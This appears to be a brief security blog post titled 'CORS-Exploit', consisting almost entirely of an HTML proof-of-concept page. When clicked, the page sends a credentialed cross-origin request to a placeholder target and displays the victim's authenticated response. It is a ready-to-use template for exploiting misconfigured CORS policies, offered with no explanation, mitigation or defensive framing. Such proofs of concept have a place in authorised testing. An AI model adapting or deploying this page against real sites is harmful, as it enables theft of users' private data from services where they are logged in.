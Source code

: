 +++
title = "CORS-Exploit"
date = "2019-03-10"
author = "m4xx"
description = "PWn.!PWn.!PWn.!"
+++

<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract Data</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "https://target.com/info/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
 
</body>
</html>